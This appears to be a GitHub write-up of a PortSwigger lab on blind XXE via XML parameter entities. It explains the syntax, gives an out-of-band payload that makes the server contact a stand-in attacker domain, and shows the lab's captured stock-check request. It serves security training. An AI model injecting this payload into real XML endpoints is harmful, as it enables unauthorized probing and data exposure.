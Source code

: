 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aa4f23ae-5538-4b0d-ad81-5c3fd061b2cf)

## Overview :

 **Sometimes, XXE attacks using regular entities are blocked**, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to **use XML parameter entities instead**. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

 ```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

## Solution :


Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/1.1
Host: 0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Cookie: session=gkq4gIYhDLxhrPndgufyUGUiDzIeF4Wz
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

